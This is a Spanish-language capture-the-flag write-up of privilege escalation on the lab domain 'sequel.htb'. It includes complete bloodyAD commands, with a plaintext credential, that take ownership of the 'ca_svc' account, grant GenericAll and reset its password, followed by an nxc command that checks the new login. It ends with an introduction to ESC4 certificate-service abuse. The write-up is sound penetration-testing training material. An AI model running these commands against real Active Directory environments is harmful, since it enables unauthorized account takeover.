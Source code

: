 ## Privilege Escalation

### Abuse of WriteOwner privileges on a user (to change a user's password) with bloodyAD

Se procedió a explotar este privilegio al asignarnos como propietarios del usuario `ca_svc` utilizando la función `WriteOwner`. Al convertirnos en propietarios, obtuvimos control total sobre el usuario. Posteriormente, para garantizar aún más el control, se otorgaron permisos de `GenericAll` sobre el usuario, lo que nos permitió ejecutar cualquier acción necesaria

Finalmente, se cambió la contraseña del usuario a `Password01!`. Con esta acción, logramos tener acceso y control absoluto sobre el objeto.

{% code overflow="wrap" %}
```bash
bloodyAD --host 10.10.11.51 -d sequel.htb -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' ryan

bloodyAD --host 10.10.11.51 -d sequel.htb -u 'ryan' -p 'WqSZAF6CysDQbGb3' add genericAll 'ca_svc' ryan

bloodyAD --host 10.10.11.51 -d sequel.htb -u 'ryan' -p 'WqSZAF6CysDQbGb3' set password 'ca_svc' 'Password01!'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/3507_vmware_weLD5PPDh3.png" alt=""><figcaption></figcaption></figure>

Verificaremos que hemos logrado cambiar la contraseña del usuario `ca_svc@sequel.htb` correctamente.

```bash
nxc smb 10.10.11.51 -u 'ca_svc' -p 'Password01!'
```

<figure><img src="../../../.gitbook/assets/3508_vmware_fXjZlmUWx2.png" alt=""><figcaption></figcaption></figure>

### ESC4 exploitation case with certipy-ad

Revisando en BloodHound el usuario recién obtenido, verificamos que forma parte del grupo (`Cert Publishers@sequel.htb`), y por el nombre de usuario, parece estar relacionado con los ADCS (Active Directory Certificate Services).

ADCS es el rol que maneja la emisión de certificados para usuarios, equipos y servicios en la red de Active Directory. Este servicio, si está mal configurado, puede presentar vulnerabilidades que los atacantes podrían explotar para elevar privilegios o acceder a información sensible.
